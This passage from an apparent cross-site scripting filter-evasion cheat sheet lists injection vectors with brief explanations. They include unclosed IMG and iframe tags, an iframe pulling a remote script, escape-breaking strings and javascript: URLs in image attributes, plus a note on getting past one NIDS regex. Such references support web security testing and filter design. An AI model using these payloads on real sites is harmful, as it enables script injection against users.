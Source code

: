 				Unlike Firefox the IE rendering engine doesn’t add extra data to your page, but it does allow the javascript: directive in images. This is useful as a vector because it doesn’t require a close angle bracket. This assumes there is any HTML tag below where you are injecting this cross site scripting vector. Even though there is no close “>” tag the tags below it will close it. A note: this does mess up the HTML, depending on what HTML is beneath it. It gets around the following NIDS regex: /((\%3D)|(=))[^\n]*((\%3C)|<)[^\n]+((\%3E)|>)/ because it doesn’t require the end “>”. As a side note, this was also affective against a real world XSS filter I came across using an open ended <IFRAME tag instead of an <IMG tag:
				1
				<IMG SRC="javascript:alert('XSS')"


				Double open angle brackets

				Using an open angle bracket at the end of the vector instead of a close angle bracket causes different behavior in Netscape Gecko rendering. Without it, Firefox will work but Netscape won’t:
				1
				<iframe src=http://ha.ckers.org/scriptlet.html <


				Escaping JavaScript escapes

				When the application is written to output some user information inside of a JavaScript like the following: <SCRIPT>var a=”$ENV{QUERY_STRING}”;</SCRIPT> and you want to inject your own JavaScript into it but the server side application escapes certain quotes you can circumvent that by escaping their escape character. When this is gets injected it will read <SCRIPT>var a=”\\”;alert(‘XSS’);//”;</SCRIPT> which ends up un-escaping the double quote and causing the Cross Site Scripting vector to fire. The XSS locator uses this method.:
				1
				\";alert('XSS');//


				End title tag

				This is a simple XSS vector that closes <TITLE> tags, which can encapsulate the malicious cross site scripting attack:
				1
				</TITLE><SCRIPT>alert("XSS");</SCRIPT>


				INPUT image
				1
				<INPUT TYPE="IMAGE" SRC="javascript:alert('XSS');">


				BODY image
				1
				<BODY BACKGROUND="javascript:alert('XSS')">


				IMG Dynsrc
				1
				<IMG DYNSRC="javascript:alert('XSS')">


				IMG lowsrc
				1
				<IMG LOWSRC="javascript:alert('XSS')">


				List-style-image

				Fairly esoteric issue dealing with embedding images for bulleted lists. This will only work in the IE rendering engine because of the JavaScript directive. Not a particularly useful cross site scripting vector:
				1
				<STYLE>li {list-style-image: url("javascript:alert('XSS')");}</STYLE><UL><LI>XSS</br>
